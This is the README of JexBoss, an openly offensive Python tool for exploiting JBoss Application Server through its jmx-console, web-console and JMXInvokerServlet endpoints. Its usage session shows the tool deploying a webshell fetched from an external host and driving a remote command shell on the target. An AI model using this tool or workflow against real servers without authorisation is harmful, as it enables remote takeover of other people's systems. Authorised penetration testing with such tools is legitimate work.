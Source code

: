 JexBoss - Jboss verify and EXploitation Tool
=======

JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server.

Requirements
----
* Python >= 2.7.x
* [urllib3](https://pypi.python.org/pypi/urllib3)

Installation
----
To install the latest version of JexBoss, please use the following commands:

	git clone https://github.com/joaomatosf/jexboss.git
	cd jexboss
	python jexboss.py

Features
----
The tool and exploits were developed and tested for versions 3, 4, 5 and 6 of the JBoss Application Server.

The exploitation vectors are:

* /jmx-console
	- tested and working in JBoss versions 4, 5 and 6
* /web-console/Invoker
	- tested and working in JBoss versions 4
* /invoker/JMXInvokerServlet
	- tested and working in JBoss versions 4 and 5

Usage example
----
* Check the file "demo.png"

```
$ git clone https://github.com/joaomatosf/jexboss.git
$ cd jexboss
$ python jexboss.py https://site-teste.com

 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#


 ** Checking Host: https://site-teste.com **

 * Checking web-console: 	       [ OK ]
 * Checking jmx-console: 	       [ VULNERABLE ]
 * Checking JMXInvokerServlet: 	       [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "jmx-console" ?
   This operation will provide a simple command shell to execute commands on the server..
   Continue only if you have permission!
   yes/NO ? yes

 * Sending exploit code to https://site-teste.com. Wait...


 * Info: This exploit will force the server to deploy the webshell 
   available on: http://www.joaomatosf.com/rnp/jbossass.war
 * Successfully deployed code! Starting command shell, wait...

 * - - - - - - - - - - - - - - - - - - - - LOL - - - - - - - - - - - - - - - - - - - - * 

 * https://site-teste.com: 

 Linux fwgw 2.6.32-431.29.2.el6.x86_64 #1 SMP Tue Sep 9 21:36:05 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

 CentOS release 6.5 (Final)

 uid=509(jboss) gid=509(jboss) grupos=509(jboss) context=system_u:system_r:initrc_t:s0

[Type commands or "exit" to finish]
Shell> pwd
/usr/jboss-6.1.0.Final/bin

[Type commands or "exit" to finish]
Shell> hostname
fwgw

[Type commands or "exit" to finish]
Shell> ls -all /tmp 
total 35436
drwxrwxrwt.  4 root root     4096 Nov 24 16:36 .
dr-xr-xr-x. 22 root root     4096 Nov 23 03:26 ..
-rw-r--r--.  1 root root 34630995 Out 15 18:07 snortrules-snapshot-2962.tar.gz
-rw-r--r--.  1 root root       32 Out 16 14:51 snortrules-snapshot-2962.tar.gz.md5
-rw-------.  1 root root        0 Set 20 16:45 yum.log
-rw-------.  1 root root     2743 Set 20 17:18 yum_save_tx-2014-09-20-17-18nQiKVo.yumtx
-rw-------.  1 root root     1014 Out  6 00:33 yum_save_tx-2014-10-06-00-33vig5iT.yumtx
-rw-------.  1 root root      543 Out  6 02:14 yum_save_tx-2014-10-06-02-143CcA5k.yumtx
-rw-------.  1 root root    18568 Out 14 03:04 yum_save_tx-2014-10-14-03-04Q9ywQt.yumtx
-rw-------.  1 root root      315 Out 15 16:00 yum_save_tx-2014-10-15-16-004hKzCF.yumtx

[Type commands or "exit" to finish]
Shell>
```

Questions, problems, suggestions and etc:
----

* joaomatosf@gmail.com

Donate:
----
* Please consider making a donation to help improve this tool, including research to new versions of JBoss and zero days.

* Bitcoin Address:  14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C
* URI:  bitcoin:14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C?label=jexboss
